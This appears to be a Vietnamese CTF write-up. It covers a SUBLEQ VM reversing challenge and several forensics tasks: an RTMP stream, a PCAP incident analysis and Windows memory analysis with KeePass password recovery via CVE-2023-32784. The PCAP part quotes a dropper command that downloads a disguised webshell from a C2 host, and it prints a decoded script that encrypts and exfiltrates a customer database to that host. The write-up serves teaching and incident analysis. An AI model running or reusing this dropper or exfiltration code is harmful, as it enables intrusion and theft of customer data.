Đầu tiên nó gọi tới hàm main ở địa chỉ 0x00401e00 nhưng sau đó đã bị ghi đè thành gọi tới hàm main tại địa chỉ 0x0076c558, OS sẽ thực thi hàm ở 0x0076c558 trong khi IDA hiện thị hàm main giả ở 0x00401e00. Tiếp tới ta jump tới hàm main thật trong ida để xem logic thật của chương trình

```c
__int64 sub_76C558()
{
  signed __int64 v0; // rax
  __int64 v1; // rax
  __int64 v2; // rbx
  signed __int64 v3; // rax
  unsigned __int64 v5; // r13
  __int64 v6; // rax
  __int64 v7; // r8
  signed __int64 v8; // rax
  _DWORD *v9; // rdi
  __int64 *v10; // rsi
  __int64 i; // rcx
  unsigned __int64 j; // rax
  __int64 v13; // rdx
  __int64 v14; // rcx
  __int64 v15; // rdi
  __int64 v16; // rdx
  __int64 v17; // rax
  unsigned __int64 v18; // rsi
  unsigned __int64 v19; // rdx
  __int64 v20; // r9
  __int64 *v21; // rdi
  __int64 v22; // rdx
  signed __int64 v23; // rax
  signed __int64 v24; // rax
  __int64 v25; // r8
  signed __int64 v26; // rax
  __int64 v27; // rax
  unsigned int v28; // r9d
  __int64 v29; // r10
  __int64 v30; // r13
  signed __int64 v31; // rax
  char *v32; // rdx
  char v33; // cl
  __int64 v34; // rbp
  __int64 v35; // rax
  __int64 v36; // r10
  signed __int64 v37; // rax
  int v38; // ebp
  signed __int64 v39; // rax
  __int64 fd; // [rsp+8h] [rbp-2060h]
  char v41[18]; // [rsp+1Eh] [rbp-204Ah] BYREF
  char v42[8]; // [rsp+30h] [rbp-2038h] BYREF
  __int16 v43; // [rsp+68h] [rbp-2000h]
  char v44; // [rsp+110h] [rbp-1F58h] BYREF
  __int64 buf; // [rsp+1030h] [rbp-1038h] BYREF

  if ( (unsigned int)isatty(0) )
  {
    LOWORD(buf) = 8254;
    v0 = sys_write(1u, (const char *)&buf, 2u);
  }
  *(_QWORD *)v42 = 0;
  buf = 0;
  v1 = getline(v42, &buf, stdin);
  v2 = *(_QWORD *)v42;
  if ( v1 < 0 )
  {
    free(*(_QWORD *)v42);
    v41[0] = 90;
    qmemcpy(&buf, "no\n", 3);
    v3 = sys_write(1u, (const char *)&buf, 3u);
    return 1;
  }
  v5 = 0;
  if ( v1 )
  {
    v5 = v1 - 1;
    if ( *(_BYTE *)(*(_QWORD *)v42 + v1 - 1) == 10 )
    {
      if ( v1 == 1 )
        goto LABEL_11;
      --v1;
    }
    v5 = v1 - 1;
    if ( *(_BYTE *)(*(_QWORD *)v42 + v1 - 1) != 13 )
      v5 = v1;
  }
LABEL_11:
  v6 = malloc(443608);
  v7 = v6;
  if ( v6 )
  {
    v9 = (_DWORD *)v6;
    v10 = qword_700080;
    for ( i = 110902; i; --i )
    {
      *v9 = *(_DWORD *)v10;
      v10 = (__int64 *)((char *)v10 + 4);
      ++v9;
    }
    *(_QWORD *)(v6 + 440680) = v5;
    for ( j = 0; j != 40; ++j )
    {
      v13 = 0;
      if ( j < v5 )
        v13 = *(unsigned __int8 *)(v2 + j);
      *(_QWORD *)(v7 + 8 * j + 440728) = v13;
    }
    v14 = 221804;
    v15 = 2;
    v16 = 0;
    v17 = 0;
    do
    {
      v18 = *(_QWORD *)(v7 + 8 * v16);
      v19 = *(_QWORD *)(v7 + 8 * v16 + 8);
      v20 = *(_QWORD *)(v7 + 8 * v15);
      if ( ((v19 | v18) & 0x8000000000000000LL) != 0LL || v18 > 0xD89A || v19 > 0xD89A )
        break;
      v21 = (__int64 *)(v7 + 8 * v19);
      v17 += 3;
      v22 = *v21 - *(_QWORD *)(v7 + 8 * v18);
      *v21 = v22;
      if ( v22 <= 0 )
        v17 = v20;
      if ( !--v14 )
        break;
      if ( v17 < 0 )
      {
        if ( *(_QWORD *)(v7 + 440696) == 1 )
        {
          v42[0] = 90;
          qmemcpy(&buf, "ok\n", 3);
          v39 = sys_write(1u, (const char *)&buf, 3u);
          v38 = 1;
          goto LABEL_48;
        }
        break;
      }
      v15 = v17 + 2;
      v16 = v17;
    }
    while ( (unsigned __int64)(v17 + 2) <= 0xD89A );
    strcpy(v41, "no\n/proc/self/exe");
    v23 = sys_write(1u, v41, 3u);
    v24 = sys_readlink(&v41[3], (char *)&buf, 4095);
    if ( (unsigned __int64)(v24 - 1) <= 0xFFE )
    {
      *((_BYTE *)&buf + v24) = 0;
      fd = sys_open(&v41[3], 0, 0);
      if ( fd >= 0 )
      {
        v26 = sys_unlink((const char *)&buf);
        if ( sys_open((const char *)&buf, 577, 493) >= 0 )
        {
          do
          {
            v27 = sys_read(fd, v42, 0x1000u);
            v30 = v27;
            if ( v27 <= 0 )
              break;
            if ( !v29 && v27 > 624 )
            {
              v32 = v42;
              do
              {
                v33 = v32[400];
                (++v32)[287] = v33;
              }
              while ( &v44 != v32 );
              v43 = 8;
            }
            if ( (unsigned __int64)(v29 + v27) > 0x1CB000 )
              v30 = 1880064 - v29;
            v34 = 0;
            do
            {
              v35 = sys_write(v28, &v42[v34], v30 - v34);
              if ( v35 <= 0 )
                break;
              v34 += v35;
            }
            while ( v30 > v34 );
          }
          while ( (unsigned __int64)(v30 + v36) <= 0x1CAFFF );
          v31 = sys_close(v28);
        }
        v37 = sys_close(fd);
      }
    }
    v38 = 0;
LABEL_48:
    free(v25);
    free(v2);
    return v38 ^ 1u;
  }
  else
  {
    free(v2);
    qmemcpy(&buf, "no\n", 3);
    v8 = sys_write(1u, (const char *)&buf, 3u);
    return 2;
  }
}
```

Cơ chế khá đơn giản, nó check input đầu vào nếu thỏa điêu kiện sẽ in ra ok còn nếu không thì sẽ in ra no. Khi quá trình kiểm tra thất bại, chương trình không chỉ in "no" mà còn:

1. Đọc đường dẫn executable hiện tại thông qua `/proc/self/exe`.
2. Xóa file đang chạy bằng `unlink`.
3. Tạo lại file cùng tên.
4. Copy toàn bộ nội dung executable sang file mới.
5. Chỉnh sửa một vùng dữ liệu trong block đầu tiên trước khi ghi.

Nên khi nhập sai lần đầu chương trình sẽ bị thay đổi ngay lập tức khiến ta tốn thời gian phân tích 1 chương trình đã bị decoy( thực tế khi làm bài này tôi đã mất khá nhiều thời gian phân tích decoy do thói quen test chương trình để xem hành vi nó trước khi static analyst)

Ở đây ta có thể thấy nó đang check điều kiện đúng bằng SUBLEQ VM. 

```c
v6 = malloc(443608);
  v7 = v6;
  if ( v6 )
  {
    v9 = (_DWORD *)v6;
    v10 = qword_700080;
    for ( i = 110902; i; --i )
    {
      *v9 = *(_DWORD *)v10;
      v10 = (__int64 *)((char *)v10 + 4);
      ++v9;
    }
    *(_QWORD *)(v6 + 440680) = v5;
    for ( j = 0; j != 40; ++j )
    {
      v13 = 0;
      if ( j < v5 )
        v13 = *(unsigned __int8 *)(v2 + j);
      *(_QWORD *)(v7 + 8 * j + 440728) = v13;
    }
```

Ở đây ta thấy nó đang copy toàn bộ VM program vào memory mới malloc, sau đó copy từng byte input vào VM memory. Có thể thấy được input sẽ có độ dài là 40. Tiếp theo là vòng loop duyệt qua logic của subleq vm và điều kiện win là:

```c
 if ( *(_QWORD *)(v7 + 440696) == 1 )
        {
          v42[0] = 90;
          qmemcpy(&buf, "ok\n", 3);
          v39 = sys_write(1u, (const char *)&buf, 3u);
          v38 = 1;
          goto LABEL_48;
        }
```

Ta có 440696 / 8 = 55087 nên có thể biết được mem[55087] chính là success cell. 

Sau khi test 1 vài input thì có thể thấy verifier không so sánh trực tiếp toàn bộ chuỗi input. Thay vào đó:

1. Tách từng byte thành bit.
2. Đi qua decision tree gồm rất nhiều branch SUBLEQ.
3. Mỗi branch kiểm tra một số bit cụ thể.

Do verifier chỉ kiểm tra một số bit nhất định nên nhiều ký tự khác nhau sẽ đi cùng path trong decision tree. Mặc dù binary không trực tiếp in ra mismatch counter, verifier vẫn vô tình làm lộ thông tin thông qua trạng thái thực thi của VM. Nếu verifier chỉ kiểm tra đúng/sai đơn giản thì mọi ký tự sai đều phải cho cùng kết quả nhưng ở đây nó lại chia thành 2 nhánh rõ rệt, giả sử ở vị trí 11 (vì biết định dạng cờ là HCMUS-CTF{…}) ta có được:

```python
import struct

with open("subleq.bin", "rb") as f:
    blob = f.read()

raw = []

for i in range(0, len(blob), 8):
    raw.append(struct.unpack("<q", blob[i:i+8])[0])

MASK = (1 << 64) - 1

def s64(x):
    x &= MASK

    if x & (1 << 63):
        x -= (1 << 64)

    return x

LEN_ADDR   = 55085
COUNT_ADDR = 55086
INPUT_ADDR = 55091

CHECK_PC   = 55050

MAXSTEP    = 100000

def mismatch(inp):

    mem = raw.copy()

    b = inp.encode()

    mem[LEN_ADDR] = len(b)

    for i, c in enumerate(b):
        mem[INPUT_ADDR + i] = c

    pc = 0
    step = 0

    while step < MAXSTEP:

        if pc == CHECK_PC:
            return mem[COUNT_ADDR]

        if pc < 0:
            return mem[COUNT_ADDR]

        if pc + 2 >= len(mem):
            return 999999

        A = mem[pc]
        B = mem[pc + 1]
        C = mem[pc + 2]

        if (A | B) < 0:
            return 999999

        if A >= len(mem) or B >= len(mem):
            return 999999

        r = s64(mem[B] - mem[A])

        mem[B] = r

        if r <= 0:
            pc = C
        else:
            pc += 3

        step += 1

    return 999999

POS = 10

base = list("HCMUS-CTF{" + "A"*29 + "}")

charset = ''.join(chr(i) for i in range(32,127))

classes = {}

for ch in charset:

    trial = base.copy()

    trial[POS] = ch

    s = ''.join(trial)

    score = mismatch(s)

    classes.setdefault(score, []).append(ch)

for score in sorted(classes):

    arr = ''.join(classes[score])

    print(f"score={score:3d} -> {arr}")
```


Ý nghĩa:

- Nếu ký tự thuộc `124abdh` mismatch counter sẽ giảm xuống 34
- Các ký tự khác cho score 35

Do verifier chỉ kiểm tra một vài bit nên nhiều ký tự trở nên tương đương. Dùng cơ chế trên ta lấy ra list kí tự cho từng pos

```python
import struct

with open("subleq.bin", "rb") as f:
    blob = f.read()

raw = []

for i in range(0, len(blob), 8):
    raw.append(struct.unpack("<q", blob[i:i+8])[0])

MASK = (1 << 64) - 1

def s64(x):

    x &= MASK

    if x & (1 << 63):
        x -= (1 << 64)

    return x

LEN_ADDR   = 55085
COUNT_ADDR = 55086
INPUT_ADDR = 55091

CHECK_PC   = 55050

MAXSTEP    = 100000

def mismatch(inp):

    mem = raw.copy()

    b = inp.encode()

    mem[LEN_ADDR] = len(b)

    for i, c in enumerate(b):
        mem[INPUT_ADDR + i] = c

    pc = 0
    step = 0

    while step < MAXSTEP:

        if pc == CHECK_PC:
            return mem[COUNT_ADDR]

        if pc < 0:
            return mem[COUNT_ADDR]

        if pc + 2 >= len(mem):
            return 999999

        A = mem[pc]
        B = mem[pc+1]
        C = mem[pc+2]

        if (A | B) < 0:
            return 999999

        r = s64(mem[B] - mem[A])

        mem[B] = r

        if r <= 0:
            pc = C
        else:
            pc += 3

        step += 1

    return 999999

charset = ''.join(chr(i) for i in range(32,127))

base = list("HCMUS-CTF{" + "A"*29 + "}")

domains = []

for pos in range(len(base)):

    trial_classes = {}

    for ch in charset:

        tmp = base.copy()

        tmp[pos] = ch

        s = ''.join(tmp)

        sc = mismatch(s)

        trial_classes.setdefault(sc, []).append(ch)

    best = min(trial_classes)

    domains.append(
        ''.join(trial_classes[best])
    )

print()
print("dom = [")

for d in domains:

    print(f"    list({d!r}),")

print("]")
print()
```


Tiếp theo ta dùng Beam Search, qua mỗi bước giải mã nó sẽ giữ lại candidate có score tốt nhất cứ như vậy đến hết chuỗi, cuối cùng chả về chuỗi có score tốt nhất tức mismatch counter =0 và đó chính là flag

```python
import struct

with open("subleq.bin", "rb") as f:
    blob = f.read()

raw = []

for i in range(0, len(blob), 8):
    raw.append(struct.unpack("<q", blob[i:i+8])[0])

MASK = (1 << 64) - 1

def s64(x):

    x &= MASK

    if x & (1 << 63):
        x -= (1 << 64)

    return x

LEN_ADDR   = 55085
COUNT_ADDR = 55086
OK_ADDR    = 55087
INPUT_ADDR = 55091

MAXSTEP    = 100000

BEAM       = 200

dom = [
    list('!"$(ABDHP'),
    list('#&,CFLX'),
    list('-MYZ'),
    list('U'),
    list('+KSV'),
    list('-MYZ'),
    list('#&,CFLX'),
    list('%)*EIJQRT'),
    list('#&,CFLX'),
    list('{'),
    list('124abdh'),
    list('124abdh'),
    list('124abdh'),
    list('_'),
    list('=yz'),
    list('0`'),
    list('u'),
    list('_'),
    list(';sv'),
    list('o'),
    list('36cfl'),
    list(';sv'),
    list('36cfl'),
    list('_'),
    list('124abdh'),
    list('o'),
    list('9:qrt'),
    list('124abdh'),
    list('_'),
    list('36cfl'),
    list('124abdh'),
    list('124abdh'),
    list('36cfl'),
    list('36cfl'),
    list(';sv'),
    list('_'),
    list(';sv'),
    list('%)*EIJQRT'),
    list('%)*EIJQRT'),
    list('}'),
]

def metric(inp):

    mem = raw.copy()

    b = inp.encode()

    mem[LEN_ADDR] = len(b)

    for i, c in enumerate(b):
        mem[INPUT_ADDR + i] = c

    pc = 0
    step = 0

    while step < MAXSTEP:

        if pc < 0:

            return (
                mem[COUNT_ADDR],
                -1,
                step,
                mem[OK_ADDR]
            )

        if pc + 2 >= len(mem):

            return (
                999999,
                pc,
                step,
                0
            )

        A = mem[pc]
        B = mem[pc+1]
        C = mem[pc+2]

        if (A | B) < 0:

            return (
                999999,
                pc,
                step,
                0
            )

        r = s64(mem[B] - mem[A])

        mem[B] = r

        if r <= 0:
            pc = C
        else:
            pc += 3

        step += 1

    return (
        mem[COUNT_ADDR],
        pc,
        step,
        mem[OK_ADDR]
    )

states = [("", (999999,0,0,0))]

for pos in range(len(dom)):

    nxt = []

    for prefix, _ in states:

        for ch in dom[pos]:

            cand = prefix + ch

            tmp = cand

            for j in range(pos+1, len(dom)):
                tmp += dom[j][0]

            sc = metric(tmp)

            nxt.append((cand, sc))

    nxt.sort(
        key=lambda x: (
            x[1][0],
            -x[1][2],
            x[1][1],
            -x[1][3]
        )
    )

    states = nxt[:BEAM]

for s, sc in states:

    print(s, sc)

    if sc[3] == 1:

        print()
        print("FLAG =", s)
        break
```


 mismatch counter = 0, ta có thể thử lại flag


Flag: HCMUS-CTF{d1d_y0u_solv3_both_ch4lls_;))}

# Forensic

## **forensics/Streamer**


File được cho là một `pcapng`. Khi mở bằng Wireshark thấy traffic chủ yếu là TCP trên `127.0.0.1`, có giao thức RTMP. Đây là hint quan trọng: “local streamer” không phải Twitch/YouTube, mà là stream RTMP local. Ta export nó ra dưới dạng raw, chỉ lưu hướng client thôi


Chuyển RTMP sang FLV. Dùng tool:

```
git clone https://github.com/quo/rtmp2flv
cd rtmp2flv
python3 rtmp2flv.py output.bin 
```


Tiếp theo chỉ cần mở video và xem


Flag: 

> HCMUS-CTF{444171_14m_a_4pPL3}
> 

## forensics/Intro2Pcap


Mục tiêu của bài là phân tích file PCAP, lần theo hoạt động tấn công, sau đó trả lời các câu hỏi trên service `nc` để lấy phần cuối của flag.

#### Question 1: What is the IP address of the threat actor?

Mở file PCAP bằng Wireshark, đầu tiên xem những địa chỉ ip giao tiếp nhiều nhất ta thấy được


Ở đây ta filter thử 172.28.13.20 thử xem ip này là gì


Ta thấy IP có hành vi scan nhiều endpoint nhạy cảm như:

```
/.git/HEAD
/.env
/WEB-INF/web.xml
/uploads/
/backup/
```

Ngoài ra còn có các request mang tính reconnaissance/fuzzing. Có thể đoán ip này chính là ip của attacker.

```
Answer: 172.28.13.20
```

#### Question 2: How many ports were scanned by the attacker?

Ta dùng tshark để đếm số port mà ip mal đã quét.

```bash
tshark -r acme_crm_ir_capture.pcap \
-Y "ip.src==172.28.13.20 && tcp.flags.syn==1 && tcp.flags.ack==0" \
-T fields -e tcp.dstport | sort -n | uniq | wc -l
```


```
Answer: 100
```

#### Question 3: What tool did the attacker use to perform fuzzing?

Trong HTTP request có thể thấy User-Agent hoặc dấu hiệu fuzzing tool 


```
Answer: ffuf
```

#### Question 4: What is the C2 domain?

Ta cứ duyệt theo stream, theo stream dưới ta có thể thấy


Ở đây có thể thấy các request chứa lệnh cmd, có thể đoán nó đang thực thi các command trên máy nạn nhân, trước đó có 1 cái PUT và 1 cái GET khả nghi, follow stream xem thử


Quá khả nghi nên đi research thử thì thấy


Có vẻ nó đang khai thác CVE-2025-24813 cho phép khai thác qua PUT. Trong payload còn xuất hiện trực tiếp lời gọi:

```
java.lang.Runtime.exec()
```

kèm command:

```
bash-c {curl,-fsSL,http://assets-acme-cdn.com:9001/assets/crm-cache.crt,-o,/opt/acme-crm/runtime/.crm-cache.crt};{grep,-v,CERTIFICATE,/opt/acme-crm/runtime/.crm-cache.crt}|{base64,-d}>/usr/local/tomcat/webapps/ROOT/uploads/.crm-cache.jsp
```

Bóc tách từng bước ta thấy:

```bash
curl -fsSL [http://assets-acme-cdn.com:9001/assets/crm-cache.crt](http://assets-acme-cdn.com:9001/assets/crm-cache.crt) \
-o /opt/acme-crm/runtime/.crm-cache.crt
```

Payload được tải từ: ***http://assets-acme-cdn.com:9001/assets/crm-cache.crt***

và lưu vào: ***/opt/acme-crm/runtime/.crm-cache.crt***

```bash
grep-v CERTIFICATE /opt/acme-crm/runtime/.crm-cache.crt
```

Lệnh này xóa các dòng:

```
-----BEGIN CERTIFICATE-----
-----END CERTIFICATE-----
```

Có vẻ nó đang giả file certificate, thực tế dữ liệu là payload độc hại. Nó khi xóa 2 dòng trên và giữ lại phần dữ liệu Base64 ở giữa, sau đó base64 -d để giải mã đoạn này. Cuối cùng ghi thành file webshell .

```bash
> /usr/local/tomcat/webapps/ROOT/uploads/.crm-cache.jsp
```

Ký hiệu: “>” chuyển output từ lệnh trước vào file.

File được tạo:

```
/usr/local/tomcat/webapps/ROOT/uploads/.crm-cache.jsp
```

Sau khi tạo xong, attacker có thể thực thi lệnh từ xa:

```
GET /uploads/.crm-cache.jsp?cmd=whoami
GET /uploads/.crm-cache.jsp?cmd=id
GET /uploads/.crm-cache.jsp?cmd=pwd
```

Request trả về:

```
HTTP/1.1 409
partial PUT session artifact accepted
```

Chi tiết này rất quan trọng vì nó cho thấy server đã chấp nhận session artifact được upload.

Từ command trên có thể thấy C2 domain

```
Answer: assets-acme-cdn.com:9001
```

#### Question 5: What is the command did the attacker make te victim to run?

Theo phân tích ở trên thì:

Answer:

```
bash -c {curl,-fsSL,http://assets-acme-cdn.com:9001/assets/crm-cache.crt,-o,/opt/acme-crm/runtime/.crm-cache.crt};{grep,-v,CERTIFICATE,/opt/acme-crm/runtime/.crm-cache.crt}|{base64,-d}>/usr/local/tomcat/webapps/ROOT/uploads/.crm-cache.jsp
```

#### Question 6: What is the name of the first mal file did the victim dow to the system?

Theo phân tích ở câu 4 thì file đầu tiên mà nạn nhân tải xuống từ attacker chính là crm-cache.crt từ url http://assets-acme-cdn.com:9001/assets/crm-cache.crt

```
Answer: crm-cache.crt
```

#### Question 7: What is the Mitre ATT&CK technique of technique that the attacker used to plant the webshell?

Có thể thấy trước đó kỹ thuật để attacker khai thác webshell là decode payload thành base64 sau đó fake certificate, ta research thử:


```
Answer: T1140
```

#### Question 8: Nonce?

Sau khi attacker có được webshell và triển khai payload giai đoạn tiếp theo (`certsync.crt → .font-cache.dat`), xuất hiện các request gửi dữ liệu về endpoint:


Quan sát phần payload của các request này nhận thấy xuất hiện các trường:


```
Answer: b7a31dc90e2445a8f0c11729
```

#### Question 9: What is the Mitre ATT&CK ID technique that the attacker used to exfiltrate files from the victim?

Sau khi attacker triển khai thành công payload giai đoạn hai (`.font-cache.dat`), xuất hiện các request gửi dữ liệu đến endpoint:

```
POST /api/v1/telemetry HTTP/1.1
```

Khi Follow TCP Stream, có thể thấy dữ liệu không được gửi thành một khối hoàn chỉnh mà bị chia nhỏ thành nhiều phần:


Điều này cho thấy attacker không exfiltrate toàn bộ file trong một request duy nhất mà chia dữ liệu thành nhiều chunk nhỏ trước khi gửi ra ngoài.

Mục đích của kỹ thuật này:

- tránh vượt ngưỡng kích thước truyền tải
- giảm khả năng bị IDS/IPS phát hiện
- khiến lưu lượng trông giống traffic hợp lệ


```
Answer: T1030
```

#### Question 10: Finally, what CVE did the attacker utilize?

Như đã phân tích ở câu 4 thì đây là CVE-2025-24813


À thì… thật ra làm tới đây tôi chưa có first part nhưng tôi đoán part 1 là dữ liệu leak ra ngoài bằng kĩ thuật exfil như đã nói trước đó. Dump ra xem 


À có lẽ trước đó phải xem payload mà attacker đã mã hóa base64 fake cert là gì nữa


Decode base64 được

```python
#!/bin/sh
# certsync font-cache maintenance job
python3 - <<'PY'
import hashlib
import time
import urllib.request

TARGET = "/opt/acme-crm/backups/customer_cards.sqlite"
C2_URL = "http://assets-acme-cdn.com:9001/api/v1/telemetry"
UPLOAD_ID = "fcache-f83c1e07a5d1"
KEY = bytes.fromhex("6a8f4b2291d57c60c5e23897a14be0d7356da8f48a73b01ee3dd14f9092a5c77")
NONCE = bytes.fromhex("b7a31dc90e2445a8f0c11729")
CHUNK_SIZE = 384
JITTER_SECONDS = 0.045

with open(TARGET, "rb") as handle:
    plaintext = handle.read()

output = bytearray()
for counter, offset in enumerate(range(0, len(plaintext), 32)):
    block = plaintext[offset:offset + 32]
    keystream = hashlib.sha256(KEY + NONCE + counter.to_bytes(4, "big")).digest()
    output.extend(byte ^ keystream[index] for index, byte in enumerate(block))

encrypted = bytes(output)
total = (len(encrypted) + CHUNK_SIZE - 1) // CHUNK_SIZE
for seq in range(1, total + 1):
    offset = (seq - 1) * CHUNK_SIZE
    chunk = encrypted[offset:offset + CHUNK_SIZE]
    request = urllib.request.Request(
        C2_URL + "?type=fontcache&sid=" + UPLOAD_ID + "&n=" + str(seq),
        data=chunk,
        method="POST",
        headers={
            "Content-Type": "application/octet-stream",
            "X-Request-ID": UPLOAD_ID,
            "X-Seq": str(seq),
            "X-Total": str(total),
            "X-Nonce": NONCE.hex(),
        },
    )
    urllib.request.urlopen(request, timeout=5).read()
    time.sleep(JITTER_SECONDS)
PY
```

Chỉ đơn giản là XOR nên ta dump dữ liệu đã exfil ra và xor ngược lại

```python
import hashlib

KEY = bytes.fromhex(
    "6a8f4b2291d57c60c5e23897a14be0d7356da8f48a73b01ee3dd14f9092a5c77"
)

NONCE = bytes.fromhex(
    "b7a31dc90e2445a8f0c11729"
)

with open("encrypted.bin", "rb") as f:
    encrypted = f.read()

output = bytearray()

for counter, offset in enumerate(range(0, len(encrypted), 32)):
    block = encrypted[offset:offset + 32]

    keystream = hashlib.sha256(
        KEY + NONCE + counter.to_bytes(4, "big")
    ).digest()

    output.extend(
        byte ^ keystream[index]
        for index, byte in enumerate(block)
    )

with open("decrypted.bin", "wb") as f:
    f.write(output)

print(output[:300])

```


Là file sqlite, mở db xem dữ liệu và lấy part 1


Flag: 

```python
HCMUS-CTF{vib3_hacking_in_big_2026__and_st1ll_h4rdc0ded_k3ys_iz_w1ld}
```

## Memory Forensics Writeup


Đề cho 1 file DESKTOP-1LI6VC6-20260522-105906.raw khoảng 5gb. Bước đầu tiên là xác định OS và thông tin cơ bản của memory dump:


Xác định được:

- **OS**: Windows 10 x64 (Build 19041 — version 2004/20H1)
- **Thời điểm capture**: 2026-05-22 10:59:08 UTC
- **User**: obiwan (từ path `C:\Users\obiwan\...`)

Tiếp theo ta dùng`vol3 -f DESKTOP-1LI6VC6-20260522-105906.raw windows.pslist`để kiểm tra các tiến trình


Phần lớn là các tiến trình Windows bình thường. Các process đáng chú ý:

| PID | Process | PPID | Ghi chú |
| --- | --- | --- | --- |
| 7472 | `mspaint.exe` | 5632 (explorer) | MS Paint đang mở  |
| 2964 | `KeePass.exe` | 5632 (explorer) | Password manager đang chạy |
| 6136 | `mstsc.exe` | 5632 (explorer) | RDP client đang kết nối |
| 4036 | `DumpIt.exe` | 5632 (explorer) | **Tool tạo memory dump** — đây là lý do có file .raw |

---

### Part 1 — flag1.txt trên Desktop

Scan filesystem tìm file flag:

```bash
vol3 -f DESKTOP-1LI6VC6-20260522-105906.raw windows.filescan.FileScan 2>/dev/null \
  | grep -i "flag"
```


Ta có thể thấy cả flag1.txt và flag2.png, ta dump flag1 ra trước 

```bash
vol3 -f DESKTOP-1LI6VC6-20260522-105906.raw windows.dumpfiles.DumpFiles \
--virtaddr 0xe2825df807e0
```


**Result: `d0nt_m1nd_me_j`**

---

### Part 2 — MS Paint canvas

Từ filescan ở Part 1, ta thấy `flag2.png` nằm tại `\Users\obiwan\Documents\`. Dump ra xem thử:

```bash
vol3 -f DESKTOP-1LI6VC6-20260522-105906.raw windows.dumpfiles.DumpFiles \
  --virtaddr 0xe2825df7f840
```


Shjt var rồi


File PNG bình thường, không có steganography hay thông tin gì đặc biệt. Nhìn lại pslist, thấy `mspaint.exe` (pid 7472) đang chạy — khả năng flag thật đang được **vẽ trên canvas chưa save**.

Dump memory process Paint:

```bash
vol3 -f DESKTOP-1LI6VC6-20260522-105906.raw windows.memmap.Memmap \
  --pid 7472 --dump
```

Scan tìm `BITMAPINFOHEADER` có width = 1980, reconstruct DIB:

```python
data = open('pid.7472.dmp', 'rb').read()
target = (1980).to_bytes(4, 'little')  # BC 07 00 00
print(f'Searching for width=1980: {target.hex()}')
off = 0
while True:
    idx = data.find(target, off)
    if idx == -1: break
    h = int.from_bytes(data[idx+4:idx+8], 'little')
    if 1000 < h < 1200:
        print(f'DIB @ {idx-4:#x}: potential {1980}x{h}')
        # BITMAPINFOHEADER = 40 bytes, bắt đầu 4 bytes trước width
        start = idx - 4
        pixel_offset = start + 40
        pixel_size = 1980 * 1080 * 4
        raw = data[pixel_offset:pixel_offset+pixel_size]
        if len(raw) == pixel_size:
            open(f'raw_{idx:x}.bin', 'wb').write(raw)
            print(f'  -> saved raw_{idx:x}.bin ({pixel_size:,} bytes)')
    off = idx + 1
```

Render BGRA rồi flip top/bottom (DIB lưu ngược):

```python
import glob
from PIL import Image

for f in glob.glob('raw_*.bin'):
    data = open(f, 'rb').read()
    img = Image.frombytes('RGBA', (1980, 1080), data, 'raw', 'BGRA')
    img = img.transpose(Image.FLIP_TOP_BOTTOM)
    out = f.replace('.bin', '.png')
    img.save(out)
    print(f'Saved {out}')
```


Có thể thấy canvas hiển thị text viết tay bị mirror, lật ngược lại ta được


**Result: `ust_doing_rando`**

---

### Part 3 — mstsc.exe RDP session

Như đã phân tích trước đó ta có  thể thấy tiến trình `mstsc.exe`  (PID 6136) đang chạy, check netscan có thể thấy RDP client kết nối tới `10.1.1.142`. Dump memory mstsc:

```bash
vol3 -f DESKTOP-1LI6VC6-20260522-105906.raw windows.memmap.Memmap \
  --pid 6136 --dump
```

Scan tìm vùng framebuffer có nội dung, lọc theo pixel đa dạng:

```python
from PIL import Image

data = open('pid.6136.dmp', 'rb').read()
w, h = 1643, 938
chunk_size = w * h * 4

for i in range(0, len(data) - chunk_size, chunk_size * 5):
    raw = data[i:i+chunk_size]
    if len(set(raw[::1000])) > 50:
        img = Image.frombytes('RGBA', (w, h), raw, 'raw', 'BGRA')
        img.save(f'scan_{i:x}.png')
```


Tại offset `0x3aca230` thấy ảnh trông giống màn hình desktop đang mở, nhưng bị skew, có thể ****width không đúng


Fine-tune width quanh offset tìm được:

```python
BASE = 0x3aca230
for w in range(1600, 1700, 2):
    raw = data[BASE:BASE + w*938*4]
    img = Image.frombytes('RGBA', (w, 938), raw, 'raw', 'BGRA')
    img.save(f'try_w{w}.png')
```


`width=1640` cho ảnh thẳng, gần đọc được nhưng vẫn bị sọc xanh đen che.


 Scan lại toàn bộ dump với w=1640:

```python
w, h = 1640, 938
chunk = w * h * 4
count = 0

for off in range(0, len(data) - chunk, chunk):
    raw = data[off:off+chunk]
    if len(set(raw[::2000])) > 50:
        img = Image.frombytes('RGBA', (w, h), raw, 'raw', 'BGRA')
        img.save(f'frame_{count:04d}_{off:x}.png')
        count += 1
```


Ta có thể thấy ở *frame_0005_2913dc0* có thể thấy được màn hình đang viết chữ trên paint, có thể đây chính là part 3 tuy nhiên  ảnh chỉ hiện nửa này cắt nửa kia


Thử tăng kích thước lên rồi reconstruct lại:

```python
BASE = 0x2913dc0
w, h = 3280, 938
raw = data[BASE:BASE + w*h*4]
img = Image.frombytes('RGBA', (w, h), raw, 'raw', 'BGRA')
img.save('dual_monitor.png')
```


Ảnh hiện rõ giao diện Canva với chữ đỏ viết tay.

**Result: `m_stuff_on_window_4n`**

---

### Part 4 — KeePass CVE-2023-32784

Từ pslist thấy `KeePass.exe` đang chạy. Để biết nó đang mở file nào, kiểm tra thử cmd

```bash
vol3 -f DESKTOP-1LI6VC6-20260522-105906.raw windows.cmdline.CmdLine \
| grep -i keepass
```


KeePass đang mở `darkest_secrets.kdbx`. Carve file KDBX từ raw dump bằng magic bytes (`\x03\xd9\xa2\x9a\x67\xfb\x4b\xb5`):

```python
data = open('DESKTOP-1LI6VC6-20260522-105906.raw', 'rb').read()
magic = b'\x03\xd9\xa2\x9a\x67\xfb\x4b\xb5'
off = 0
count = 0
while True:
    idx = data.find(magic, off)
    if idx == -1: break
    chunk = data[idx:idx+0x100000]  # carve 1MB
    open(f'carved_{count}_{idx:x}.kdbx', 'wb').write(chunk)
    print(f'KDBX @ 0x{idx:x}')
    count += 1
    off = idx + 1
```

Tìm được 4 file:


Khai thác **CVE-2023-32784** để recover master password từ RAM:

```bash
vol3 -f DESKTOP-1LI6VC6-20260522-105906.raw windows.memmap.Memmap \
  --pid 2964 --dump

git clone https://github.com/z-jxy/keepass_dump
python3 keepass_dump.py -f pid.2964.dmp
```


Kết quả:


CVE-2023-32784 khai thác cách KeePass xử lý input password — mỗi ký tự gõ vào tạo ra một `SecureString` remnant trong heap. Tuy nhiên ký tự **đầu tiên** được xử lý khác (trước khi vòng lặp bắt đầu tích lũy remnants) nên không để lại dấu vết tương tự trong memory.

